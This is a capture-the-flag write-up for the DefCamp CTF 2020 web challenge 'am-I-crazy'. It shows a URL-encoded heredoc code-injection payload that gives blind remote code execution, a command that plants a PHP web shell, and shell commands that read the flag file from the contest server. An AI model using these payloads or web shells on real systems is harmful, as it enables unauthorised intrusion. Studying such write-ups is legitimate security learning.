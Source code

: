 # DefCamp CTF 2020 – am-I-crazy

* **Category:** web
* **Points:** ?

## Challenge

> You might see but you cannot feel.
> 
> Flag format: CTF{sha256}
> 
> The challenge was proposed by BIT SENTINEL.
> 
> 35.198.103.37:31239

## Solution

The page will show the following HTML code.

```html
<!DOCTYPE html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">

    <title>AM-I-CRAZY</title>

    <!-- Bootstrap core CSS -->
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css" integrity="sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm" crossorigin="anonymous">

  </head>

  <body>

    <div class="container">
      

      <div class="jumbotron">
        <h1 class="display-3">AM I CRAZY</h1>
        <p class="lead">Use a random password and the bellow button to generate or restore to the initial state the challenge.
        <form method="POST" action="/">
            <div class="form-group" style=""><label>Password:</label><input pattern=".{8,}" name="password" type="password" class="form-control" style="display: block; position: static; float: none;" required></div></p>
            <p><button type="submit" class="btn btn-lg btn-success" href="#" role="button">Generate</button></p>
        </form>
      </div>


    </div> <!-- /container -->
  

</body>
</html>
```

You have to insert a password with at least 8 chars.

Inserting 8 `a`s will open the following URL `http://35.198.103.37:31239/secrets/64f79ab242648e5c493c6af52ee4469a/index.php` with the following content.

```php
10 <?=
define('WORKING_DIRECTORY', getcwd());

$var = <<<xd
0
xd;

echo $var;

register_shutdown_function(function() {
    chdir(WORKING_DIRECTORY);
    if (empty($_GET['tryharder'])) {
        $_GET['tryharder'] = 0;
        show_source(__FILE__);
    }
    if (strlen($_GET['tryharder']) > 15){
        $_GET['tryharder'] = 0;
    }
    $contents = file_get_contents(__FILE__);
    $search_pattern = '/\$var = <<<xd\s*(.*)\s*xd/im';
    preg_match($search_pattern, $contents, $matches);
    
    $new_contents = preg_replace_callback($search_pattern, function($matches) {
        return str_replace($matches[1], $_GET['tryharder'], $matches[0]);
    }, $contents);
    file_put_contents(__FILE__, $new_contents, LOCK_EX);
}); 
```

After the button press, you are redirected to a page like the following URL: `/secrets/3db406bb8ed1399d75a88f31b9aac730/index.php`

Here you can specify a value for the `tryharder` parameter.

```
GET /secrets/3db406bb8ed1399d75a88f31b9aac730/index.php?tryharder=<your_value_here> HTTP/1.1
Host: 35.242.253.155:30574
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://35.242.253.155:30574/
Upgrade-Insecure-Requests: 1
```

A payload can be the following, in order to use *code injection* to break the *heredoc* and obtain a blind RCE.

```php
xd;
`$_GET[0]`;
```

Payload must be URL-encoded.

```
%78%64%3B%0A%60%24%5F%47%45%54%5B%30%5D%60%3B
```

Sending it, the page will become the following.

```php
1 <?=
define('WORKING_DIRECTORY', getcwd());

$var = <<<xd
xd;
`$_GET[0]`;
xd;

echo $var;

register_shutdown_function(function() {
    chdir(WORKING_DIRECTORY);
    if (empty($_GET['tryharder'])) {
        $_GET['tryharder'] = 0;
        show_source(__FILE__);
    }
    if (strlen($_GET['tryharder']) > 15){
        $_GET['tryharder'] = 0;
    }
    $contents = file_get_contents(__FILE__);
    $search_pattern = '/\$var = <<<xdxd;
`$_GET[0]`;xd/im';
    preg_match($search_pattern, $contents, $matches);
    
    $new_contents = preg_replace_callback($search_pattern, function($matches) {
        return str_replace($matches[1], $_GET['tryharder'], $matches[0]);
    }, $contents);
    file_put_contents(__FILE__, $new_contents, LOCK_EX);
});
```

Using the blind RCE, you can execute a command to create another PHP page with a more useful web shell. For example, the following code can be used.

```php
echo 'Output:<br /><code><?php echo system($_GET[0]);?></code>' > shell.php
```

Payload must be URL-encoded.

```
%65%63%68%6F%20%27%4F%75%74%70%75%74%3A%3C%62%72%20%2F%3E%3C%63%6F%64%65%3E%3C%3F%70%68%70%20%65%63%68%6F%20%73%79%73%74%65%6D%28%24%5F%47%45%54%5B%30%5D%29%3B%3F%3E%3C%2F%63%6F%64%65%3E%27%20%3E%20%73%68%65%6C%6C%2E%70%68%70
```

Now you have a simpler web shell to use that returns the output of executed commands. Commands are passed via GET `0` URL parameter.

With this you can discover where the flag is.

```
http://35.242.253.155:30574/secrets/0641302347967910d65b269202ed912d/shell.php?0=ls%20-al%20../../

Output:
total 56
drwxrwxrwx 1 www-data www-data  4096 Dec  6 12:25 .
drwxr-xr-x 1 root     root      4096 Sep 12  2019 ..
-rw-r--r-- 2 www      www          2 Dec  6 10:57 apache2.pid
-rw-rw-r-- 1 root     root       153 Dec  1 08:31 flag.php
lrwxrwxrwx 1 www      www          6 Dec  6 12:25 html -> l/html
-rw-rw-r-- 1 root     root      2692 Dec  1 08:31 index.php
drwxrwxr-x 1 www      www      24576 Dec  6 19:18 secrets
drwxrwxr-x 1 www      www      24576 Dec  6 19:18 secrets
```

You can copy the flag file in the current directory.

```
http://35.242.253.155:30574/secrets/0641302347967910d65b269202ed912d/shell.php?0=cp%20../../flag.php%20.

http://35.242.253.155:30574/secrets/0641302347967910d65b269202ed912d/shell.php?0=ls%20-al

Output:
total 44
drwxr-xr-x 2 www www  4096 Dec  6 19:35 .
drwxrwxr-x 1 www www 24576 Dec  6 19:18 ..
-rw-r--r-- 1 www www   153 Dec  6 19:35 flag.php
-rw-r--r-- 1 www www   770 Dec  6 19:31 index.php
-rw-r--r-- 1 www www    57 Dec  6 19:31 shell.php
-rw-r--r-- 1 www www    57 Dec  6 19:31 shell.php
```

And print the flag file content.

```
http://35.242.253.155:30574/secrets/0641302347967910d65b269202ed912d/shell.php?0=cat%20flag.php

Output:
<?php

echo "Try harder!";

if (1 == 0) {
    echo "ctf{d067ddd00ba4129e83898758ac321533f392364cfaca7967d66791d9d08823bb}";
}

?>
<!-- Try harder! x2 --><!-- Try harder! x2 -->
```

The flag is the following.

```
CTF{d067ddd00ba4129e83898758ac321533f392364cfaca7967d66791d9d08823bb}
```